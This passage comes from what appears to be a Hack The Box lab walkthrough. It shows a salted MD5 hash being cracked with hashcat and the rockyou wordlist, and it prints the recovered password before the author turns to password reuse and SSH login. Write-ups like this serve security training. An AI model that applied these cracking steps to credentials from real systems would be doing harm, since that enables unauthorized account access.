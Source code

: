 So we can look for md5 in `hashcat`:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/writeup]
└─$ hashcat --example-hashes | grep md5 -B 1

...[snip]...

MODE: 20
TYPE: md5($salt.$pass)

...[snip]...

```

I added hash:salt to a file:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/writeup]
└─$ echo -n '62def4866937f08cc13bab43bb14e6f7:5a599ef579066807' > hash
```

And cracked it:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/writeup]
└─$ hashcat -a 0 -m 20 hash --wordlist /usr/share/wordlists/rockyou.txt 
hashcat (v6.1.1) starting...

...[snip]...

62def4866937f08cc13bab43bb14e6f7:5a599ef579066807:raykayjay9
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: md5($salt.$pass)
Hash.Target......: 62def4866937f08cc13bab43bb14e6f7:5a599ef579066807
Time.Started.....: Thu Jul 15 21:25:19 2021 (4 secs)
Time.Estimated...: Thu Jul 15 21:25:23 2021 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  2094.9 kH/s (0.27ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 4360192/14344385 (30.40%)
Rejected.........: 0/4360192 (0.00%)
Restore.Point....: 4359168/14344385 (30.39%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: raymie0506 -> raygan96

Started: Thu Jul 15 21:24:30 2021
Stopped: Thu Jul 15 21:25:24 2021
```

I immediately checked for password reuse and logged in via SSH:
